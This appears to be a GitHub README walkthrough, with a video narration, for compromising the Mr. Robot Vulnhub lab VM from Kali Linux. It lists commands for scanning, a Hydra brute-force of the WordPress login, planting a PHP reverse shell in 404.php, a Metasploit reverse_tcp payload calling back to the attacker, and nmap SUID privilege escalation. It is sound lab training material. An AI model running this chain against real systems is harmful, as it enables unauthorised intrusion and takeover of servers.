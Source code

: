 # Overview of the Exploit Process

## Step 1: Set Up Environment
- **Objective:** Prepare your Kali Linux attacker VM and the Mr. Robot Vulnhub target VM.
- **Actions:**
  - Install necessary software on Kali Linux:
    ```bash
    sudo apt update
    sudo apt install -y nmap gobuster hydra metasploit-framework
    ```

## Step 2: Network Scanning
- **Objective:** Identify the target's open ports and services.
- **Tools:** Nmap
- **Commands:**
    ```bash
    nmap -sS -sV -O 192.168.1.226
    ```

## Step 3: Enumeration
- **Objective:** Gather detailed information about the target's web applications and technologies.
- **Tools:** Gobuster, Wappalyzer
- **Commands:**
    ```bash
    gobuster dir -u http://192.168.1.226 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
    ```
  - Use Wappalyzer browser extension to identify web technologies used by the target site.

## Step 4: Vulnerabilities
- **Objective:** Identify vulnerabilities in the target's web applications and services.
- **Tools:** Nmap, Nikto
- **Commands:**
    ```bash
    nmap --script vuln 192.168.1.226
    nikto -h http://192.168.1.226
    ```

## Step 5: Brute-force
- **Objective:** Gain access to the target by brute-forcing login credentials.
- **Tools:** Hydra
- **Commands:**
    ```bash
    hydra -l admin -P /usr/share/wordlists/rockyou.txt 192.168.1.226 http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^:Invalid username"
    ```

## Step 6: Reverse Shell
- **Objective:** Gain remote access to the target system.
- **Tools:** PHP Reverse Shell, Metasploit

### Manual PHP Reverse Shell
1. **Upload a PHP Reverse Shell:**
   - Go to the WordPress admin panel at `http://192.168.1.226/wp-admin` and log in using the credentials found or brute-forced.
   - Navigate to Appearance > Theme Editor, select the `404.php` file, and insert the PHP reverse shell code from [PentestMonkey](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php).

2. **Start a Netcat Listener:**
    ```bash
    nc -lvnp 4444
    ```

3. **Trigger the Reverse Shell:**
   - Visit the modified `404.php` file in your browser to trigger the reverse shell.
    ```bash
    http://192.168.1.226/wp-content/themes/[your-theme]/404.php
    ```

### Using Metasploit
1. **Start Metasploit:**
    ```bash
    msfconsole
    ```

2. **Select the Exploit Module:**
    ```bash
    use exploit/unix/webapp/wp_admin_shell_upload
    ```

3. **Set Required Options:**
    ```bash
    set RHOSTS 192.168.1.226
    set RPORT 80
    set USERNAME Elliot
    set PASSWORD ER28-0652
    set TARGETURI /wp-admin
    set LHOST 192.168.1.223
    set LPORT 4444
    set payload php/meterpreter/reverse_tcp
    set VERBOSE true
    ```

4. **Run the Exploit:**
    ```bash
    exploit
    ```

5. **Interacting with Meterpreter:**
    ```plaintext
    meterpreter > shell
    python -c 'import pty; pty.spawn("/bin/bash")'
    ```

6. **Navigating the File System:**
    ```bash
    cd /home/robot
    ls -a
    cat key-1-of-3.txt
    cat key-2-of-3.txt
    ```

### Privilege Escalation (if needed)
- **Identify SUID binaries:**
    ```bash
    find / -perm -u=s -type f 2>/dev/null
    ```

- **Exploit Nmap for Privilege Escalation:**
    ```bash
    /usr/local/bin/nmap --interactive
    !sh
    ```

- **Read the Final Key:**
    ```bash
    find / -name "key-3-of-3.txt" 2>/dev/null
    cat /root/key-3-of-3.txt
    ```

### Clean Up
1. **Remove Uploaded Files:**
    ```bash
    rm /wp-content/plugins/lCXSKnpNHP/DXgKrelAug.php
    rm -rf /wp-content/plugins/lCXSKnpNHP
    ```



Step 1: Set Up Environment
Step 2: Network Scanning : 
    - nmap
Step 3: Enumeration
    - Gobuster
    - Wappalyzer
Step 4: Vulnerabilities
    - nmap
    - nikto
Step 5: Brute-force
    - Python Scripts
    - Hydra
Step 6: Reverse Shell
    - PHP Reverse Shell
    - Metasploit
Report
Videos


Hi, I'm Ivan, and today I'll show you how to exploit the Mr. Robot Vulnhub VM using Kali Linux.

First, I set up the Kali Linux attacker VM and the Mr. Robot target VM, which hosts a WordPress site with three hidden keys. I used Nmap to scan the target IP for open ports and services.

Next, I used Gobuster to find hidden directories and Wappalyzer to identify web technologies in use.

Then, I looked for vulnerabilities using Nmap scripts and Nikto. After identifying potential weak points, I used Hydra to intelligently brute-force the WordPress admin login.

Once I obtained the login credentials, I exploited the WordPress admin interface using Metasploit. By configuring the wp_admin_shell_upload module and running the exploit, I gained a Meterpreter session, which allowed me to navigate the file system.

Finally, I located and read the three hidden keys on the target system.

And that's how you can exploit the Mr. Robot VM using Kali Linux to find all the hidden keys. Thanks for watching!
